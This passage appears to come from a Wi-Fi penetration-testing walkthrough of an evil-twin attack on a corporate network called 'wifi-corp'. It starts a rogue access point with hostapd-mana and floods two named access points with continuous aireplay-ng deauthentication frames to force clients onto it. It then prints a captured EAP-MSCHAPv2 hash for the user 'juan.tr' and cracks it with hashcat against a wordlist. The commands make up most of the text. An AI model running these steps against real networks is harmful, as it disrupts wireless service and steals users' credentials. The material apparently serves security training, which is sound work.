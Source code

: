 ### 🎣 Drop the rogue attacker access-point:

```bash
sudo ifconfig wlan0 down 
sudo ifconfig wlan0 up
sudo hostapd-mana /tmp/network.conf
```
If our rogue access point transmits at a higher power than the legitimate ones, we can simply wait for a victim device to connect on its own.
Alternatively, we can actively force client devices to connect to our rogue access point by launching a denial-of-service attack. This involves continuously sending deauthentication frames to all legitimate access points. It's crucial to target every AP within the same Wi-Fi network (‘wifi-corp’) at the same time — this ensures our rogue AP is the only available option for victim devices.

To do this kind of DEAUTH we use airplay-ng 
```bash
bssid='F0:9F:C2:71:22:1A'
essid='wifi-corp'

sudo aireplay-ng -0 0 -e ${essid} -a ${bssid}  wlan0
```
and
```bash
bssid='F0:9F:C2:71:22:15'
essid='wifi-corp'

sudo aireplay-ng -0 0 -e ${essid} -a ${bssid}  wlan1
```
**NOTE: in this case I did it 2 times since I had 2 APs connected to wifi-corp**

Now, if we come back to the first terminal, we can check if a victim station is connected.
If so, you should get the password 

For **hashcat**
```bash
MANA EAP EAP-MSCHAPV2 HASHCAT | juan.tr::::a20d33a6d69754cb550ce451d41ddb5c4d6794dab01e230a:95bf6ccfec26252d
```
or **asleep**
```bash
asleap -C d4:b9:92:06:0e:57:9a:0d -R 59:b8:e1:db:c7:a8:8e:bc:f7:21:28:52:92:f0:21:2b:88:0f:df:c4:fb:ef:fe:6f -W /usr/share/john/password.lst
```
or **John the Ripper**
```bash
MANA EAP EAP-MSCHAPV2 JTR | juan.tr:$NETNTLM$95bf6ccfec26252d$a20d33a6d69754cb550ce451d41ddb5c4d6794dab01e230a:::::::
```
Let's try to crack it with hashcat
```bash
echo -n  juan.tr::::a20d33a6d69754cb550ce451d41ddb5c4d6794dab01e230a:95bf6ccfec26252d > /tmp/hashcat.txt
wordlist='rockyou.txt'
hashcat -a 0 -m 5500 /tmp/hashcat.txt ${wordlist} --force
```
With the password we want to connect to the target network!
